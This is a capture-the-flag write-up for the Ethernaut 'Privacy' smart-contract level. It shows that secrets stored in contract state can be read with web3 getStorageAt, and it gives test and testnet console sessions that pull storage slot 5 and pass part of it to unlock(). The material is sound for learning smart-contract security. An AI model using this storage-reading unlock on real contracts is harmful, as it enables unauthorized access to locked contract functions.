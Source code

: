 # Privacy

[Privacy](https://ethernaut.openzeppelin.com/level/0xcAac6e4994c2e21C5370528221c226D1076CfDAB)

Storing of secrets in state variables. Attack by extracting secret using `getStorageAt`.


Contract Address: <BR />
``0xDEEA75B0312e042cCD2679574693A19518C930fa``

<BR />


## Test Attack

```JS
//Identifying storage location using this test array data
//0x1234567890123456789012345678901234567890123456789012345678901234
//0x2222222222222222222222222222222222222222222222222222222222222222
//0x5678222334455667788995678222334455667788995678222334455667788991

pr = await Privacy.deployed()

await web3.eth.getStorageAt(pr.address, 0)
//'0x0000000000000000000000000000000000000000000000000000000000000001'

await web3.eth.getStorageAt(pr.address, 1)
//'0x00000000000000000000000000000000000000000000000000000000647f40c2'

await web3.eth.getStorageAt(pr.address, 2)
//'0x0000000000000000000000000000000000000000000000000000000040c2ff0a'

await web3.eth.getStorageAt(pr.address, 3)
//'0x1234567890123456789012345678901234567890123456789012345678901234'

await web3.eth.getStorageAt(pr.address, 4)
//'0x2222222222222222222222222222222222222222222222222222222222222222'

await web3.eth.getStorageAt(pr.address, 5)
//'0x5678222334455667788995678222334455667788995678222334455667788991'

// Break into two to confirm which half we need
//0x56782223344556677889956782223344
//0x55667788995678222334455667788991

await pr.locked()
await pr.unlock("0x56782223344556677889956782223344")
await pr.locked()
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```

```JS
pr = await Privacy.at('0xDEEA75B0312e042cCD2679574693A19518C930fa')

await web3.eth.getStorageAt(pr.address, 5)
// 0xe3a394eecab4c8ffae01de0571717a45
// 0x67da3002e806f12d14ba2f59cfb64b71

await pr.locked()
await pr.unlock("0xe3a394eecab4c8ffae01de0571717a45")
await pr.locked()
```
